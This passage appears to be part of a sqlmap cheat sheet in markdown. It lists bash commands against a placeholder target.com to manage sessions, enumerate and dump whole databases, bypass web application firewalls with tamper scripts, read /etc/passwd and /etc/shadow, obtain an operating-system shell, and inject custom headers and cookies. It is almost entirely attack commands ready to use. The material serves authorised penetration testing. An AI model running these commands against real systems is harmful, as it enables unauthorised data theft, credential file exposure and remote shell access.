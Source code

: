 ### Session Management
```bash
# Create session
sqlmap -u "http://target.com/page.php?id=1" --session="session_name"

# Resume session
sqlmap -u "http://target.com/page.php?id=1" --resume

# Flush session
sqlmap -u "http://target.com/page.php?id=1" --flush-session
```

## Practical Examples

### Quick Vulnerability Assessment
```bash
# Quick test of single URL
sqlmap -u "http://target.com/page.php?id=1" --batch --random-agent
```

### Comprehensive Database Enumeration
```bash
# Full database assessment
sqlmap -u "http://target.com/page.php?id=1" --batch --random-agent --dbs --tables --dump-all
```

### WAF Bypass
```bash
# Bypass WAF with tamper scripts
sqlmap -u "http://target.com/page.php?id=1" --batch --tamper="space2comment,randomcase" --random-agent
```

### File Access
```bash
# Read sensitive files
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/shadow"
```

### Shell Access
```bash
# Get reverse shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell --batch
```

## Advanced Configuration

### Custom Headers
```bash
# Add custom headers
sqlmap -u "http://target.com/page.php?id=1" --headers="X-Custom: value\nX-Auth: token"

# Cookie injection
sqlmap -u "http://target.com/page.php?id=1" --cookie="session=abc123; auth=xyz"
```
